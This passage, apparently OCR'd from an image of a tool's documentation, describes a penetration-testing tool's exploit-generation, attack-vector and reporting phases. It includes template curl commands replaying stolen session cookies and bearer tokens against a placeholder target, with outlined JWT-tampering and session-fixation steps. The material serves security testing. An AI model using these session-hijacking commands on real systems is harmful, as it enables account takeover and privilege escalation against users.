 ```
└─ Identifies all authentication mechanisms
```

**Phase 2: Exploit Generation**
```python
# The tool automatically generates exploit code:

# 1. Cookie replay exploit
curl -b "sessionId=STOLEN_VALUE" http://target/admin

# 2. API authentication bypass
curl -H "Authorization: Bearer STOLEN_TOKEN" http://target/api/users

# 3. JWT token manipulation
# Decode JWT, change user_id, re-encode
# Attempt privilege escalation

# 4. Session fixation attack
# Create predictable session ID
# Force victim to use it
```

**Phase 3: Attack Vector Analysis**
```
Analyzes multiple ways to attack:

Vector 1: COOKIE REPLAY
└─ Use stolen cookies directly

Vector 2: TOKEN MANIPULATION  
└─ Modify JWT tokens to escalate privileges

Vector 3: CREDENTIAL REUSE
└─ Try captured passwords on other services

Vector 4: SESSION FIXATION
└─ Force specific session IDs on victims

Vector 5: CROSS-SITE REQUEST FORGERY (CSRF)
└─ Use cookies to perform unauthorized actions
```

**Phase 4: Metasploit-Style Reporting**
```
Generates professional penetration testing report:
├─ Executive Summary (for managers)
├─ Technical Details (for developers)
├─ Proof of Concept (actual exploit code)
├─ Risk Ratings (Critical, High, Medium, Low)
├─ Remediation Steps (how to fix)
└─ References (CVE numbers, OWASP guidelines)
```
